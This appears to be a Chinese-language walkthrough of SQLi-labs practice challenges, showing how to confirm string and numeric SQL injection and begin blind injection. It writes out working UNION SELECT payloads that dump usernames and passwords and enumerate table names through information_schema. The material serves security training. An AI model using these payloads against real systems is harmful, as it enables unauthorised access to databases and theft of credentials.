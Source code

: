 SELECT * FROM users WHERE id ='-1' UNION SELECT 1,GROUP_CONCAT(username),GROUP_CONCAT(password) FROM users  -- LIMIT 0,1;
```

![image-20250903105725547](images/image-20250903105725547.png)

![image-20250902152636231](images/image-20250902152636231.png)



# less2

尝试less1的方法

```
?id=1'  会报错
?id=1' --+ 也会报错，猜测可能是数字型，因为新多了'导致无法闭合
```

验证是否是数字型

```
?id=1 and 1=1   → 结果正常（因为 1=1 永远成立）
```

![image-20250903112233069](images/image-20250903112233069.png)

```
?id=1 and 1=2  → 页面没有数据显示（因为 1=2 永远不成立）
```

![image-20250903112257968](images/image-20250903112257968.png)

### 证明了第二关是数字型注入，那么接下来照着第一关就行，去掉'

演示获取表名

```
?id=-1 UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+

SELECT * FROM users WHERE id =-1 UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security' -- LIMIT 0,1;
```

![image-20250903112458425](images/image-20250903112458425.png)

![image-20250903113553838](images/image-20250903113553838.png)



# less-5 盲注

# 🔎 第一步：确认注入点

```
?id=1-14  一直显示的都是you are in .....
?id=15           当id等于15的时候，页面显示为空
大概可以猜测出如果为真就显示，为否就不显示，是标准的盲注
也能知道此表有14个记录
